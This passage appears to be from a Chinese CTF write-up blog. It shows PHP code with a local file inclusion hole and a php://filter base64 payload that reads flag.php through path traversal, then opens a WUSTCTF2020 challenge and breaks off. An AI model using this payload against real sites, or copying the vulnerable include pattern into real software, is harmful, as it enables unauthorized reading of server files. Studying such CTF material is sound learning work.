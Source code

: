 ```
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?> 
```

我们试着读取一下`meowers../../flag.php`的源码

`php://filter/read=convert.base64-encode/resource=meowers../../flag`

![在这里插入图片描述](img/2edc3e7e0ea3322075ce41a002216175.png)![在这里插入图片描述](img/6bb94821f7bb40d5e1bd5c263da4fe3b.png)

哈哈哈哈哈我是不是学会文件包含结合伪协议了啊哈哈哈，开心

**文件包含！伪协议！**

# [WUSTCTF2020]朴实无华

这个题目的界面是挺朴实无华的，很简洁很简洁

![在这里插入图片描述](img/a1a8d1828ec9dac9a36c206a472143ec.png)

输入错误的文件的话会这样提示

![在这里插入图片描述](img/fe894919b9d5a13c9fc3ce21f0cbfa9a.png)
我还正在怀疑这是怎么判断的，抓包看了一下发现也没有传参
